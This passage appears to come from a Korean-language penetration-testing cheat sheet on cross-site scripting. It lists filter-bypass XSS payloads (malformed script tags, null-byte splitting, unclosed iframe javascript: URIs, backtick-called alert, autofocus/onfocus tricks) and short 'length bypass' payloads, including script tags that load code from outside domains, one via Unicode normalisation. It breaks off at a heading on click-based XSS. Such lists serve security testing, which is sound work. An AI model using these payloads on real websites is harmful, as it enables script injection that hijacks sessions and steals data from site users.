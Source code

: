 ```javascript
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
### 길이 우회 (작은 XSSs)

{% hint style="info" %}
**다양한 환경을 위한 더 작은 XSS** payload는 [여기](https://github.com/terjanq/Tiny-XSS-Payloads) 및 [여기](https://tinyxss.terjanq.me)에서 찾을 수 있습니다.
{% endhint %}
```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```
마지막 하나는 5개로 확장되는 2개의 유니코드 문자를 사용합니다: telsr\
이러한 문자의 더 많은 예시는 [여기](https://www.unicode.org/charts/normalization/)에서 찾을 수 있습니다.\
분해된 문자가 어디에 있는지 확인하려면 [여기](https://www.compart.com/en/unicode/U+2121)를 확인하세요.

### 클릭 XSS - 클릭재킹
